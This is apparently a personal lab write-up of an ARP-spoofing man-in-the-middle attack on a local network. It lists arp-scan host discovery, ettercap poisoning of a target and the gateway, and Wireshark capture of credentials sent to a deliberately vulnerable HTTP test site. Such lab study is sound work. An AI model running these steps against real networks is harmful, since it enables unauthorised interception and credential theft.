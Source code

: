 `ip r`  
```
default via 192.168.1.1 dev eth0 proto dhcp src 192.168.1.105 metric 100 
192.168.1.0/24 dev eth0 proto kernel scope link src 192.168.1.105 metric 100
```
Gateway (router) : 192.168.1.1  


`sudo arp-scan -I eth0 192.168.1.0/24`  
```
Interface: eth0, type: EN10MB, MAC: 08:00:27:50:4c:14, IPv4: 192.168.1.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     f0:51:36:1f:17:96       TCT mobile ltd
192.168.1.102   28:f1:0e:21:14:8d       Dell Inc.
192.168.1.107   c4:85:08:d3:4a:00       Intel Corporate
```
Target: 192.168.1.107  

`sudo ettercap -G`  
open GUI ettercap  
 
Hosts - `scan for hosts` -> Hosts - `host list` -> Found hosts are only `192.168.1.1` and `192.168.1.100` (is [ettercap using other ARP scan techniques than arp-scan?](arp-ettercap)) -> Targets - select targets - add `192.168.1.107   c4:85:08:d3:4a:00` as Target1 and  `192.168.1.1     f0:51:36:1f:17:96` as Target2 -> MITM -ARP spoof - `sniff remote connection` -> Plugins - manage plugins - `chk_poison`:  
```
Activating chk_poison plugin...
chk_poison: Checking poisoning status...
chk_poison: Poisoning process successful!
```

open and sniff `wireshark` on `eth0` ->  open [HTTP site](http://testphp.vulnweb.com/login.php) -> pass some credentials on that site -> find credentials in `wireshark` logs  

![arp-spoof](./img/arp-spoof.png)



try:
`http://zsh.sourceforge.net/Doc/Release/Prompt-Expansion.html`